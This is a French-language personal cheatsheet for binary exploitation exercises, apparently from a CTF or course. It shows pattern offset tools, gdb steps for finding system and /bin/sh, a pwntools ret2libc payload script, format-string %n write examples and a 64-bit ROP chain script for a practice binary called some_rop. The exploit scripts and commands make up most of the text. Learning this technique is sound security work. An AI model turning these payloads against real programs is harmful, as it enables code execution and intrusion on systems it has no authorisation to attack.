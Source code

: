 ```yaml
---
layout: post
title: Ret2lib_C Cheatsheet
---
```



/usr/share/metasploit/tools/exploit/pattern_create -l 150
/usr/share/metasploit/tools/exploit/pattern_offset -q 0x<adresse de SIGCEV>

Faire crash le programme via le input

Ou via gdb : 
gdb programme
r <<< $(python2 -c 'print """)

coredumpctl list
coredumpctl gdb <PID>

gdb ./monreverse
start
print &system
print &exit
search --string /bin/sh



script du payload : 


from pwn import *

padding = "\x90" * 112
eip = p32(0xf7de76e0)
exit = p32(0xf7dd9e50)
binsh = p32(0xf7f37108)

payload = padding + eip + exit + binsh

with open("payload.bin", "wb") as f:
    f.write(payload)






Execute la stack 
(cat payload.bin;cat)|./<programme>


FFormat String : 

Dans le style de l’exo de format_example :

afficher un endroit dans la mémoire : 

%”numéro”$x  → afficher la valeur
%”numéro”$n → écris une valeur Exemple: %.65536d%23$n
Pour afficher une valeur en Hexa : 
python 
0x10000


ROP 64/32 bits : 
Ouvrir dans ghidra et gdb (installer gef)
difference entre 64 et 32 quand on appelle la fonction les arguments sont avant en 64 et après en 32

Trouver la rop :
tenter une chaine de caractère et surveiller rsi et rbp

ERREUR
Segmentation fault : problème 
bus error : OK 

se rendre sur ghidra trouver les fonctions et leurs arguments : exemple exo some_rop

win1 = 0x00400657
win2 = 0x00400697
flag = 0x004006e3

p64(win1) + p64(POP_RDI) + p64(0xabcdef11)

Pour trouver les POP il faut l’outil ROPgadget : https://github.com/JonathanSalwan/ROPgadget

ROPgadget --binary some_rop | grep pop


Et pour exécuter et pas se prendre la tête avec le 32 et 64 bits il faut installer la lib pwn sur python : 

http://docs.pwntools.com/en/stable/install.html

Vérifier que le programme suivant fonctionne (il doit vous créer un fichier input et reste plus à le lancer avec notre executable: 

---------------------------------------------------------------------------------------------------------------
import subprocess
import os
import sys
from pwn import *


# input correction
elf = ELF("some_rop")
rop = ROP(elf)
win1 = 0x00400657
win2 = 0x00400697
flag = 0x004006e3
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

padding = b'A' * 24

exploit = padding + p64(win1) + p64(POP_RDI) + p64(0xabcdef11)
exploit += p64(win2) + p64(POP_RDI) + p64(0xcafeefca) 
exploit += p64(POP_RSI) + p64(0xdeadbabe) +p64(0) + p64(flag)
# rop is saved as input
f = open("input", "wb")
f.write(exploit)
f.close()
-----------------------------------------------------------------------------------------------------------------
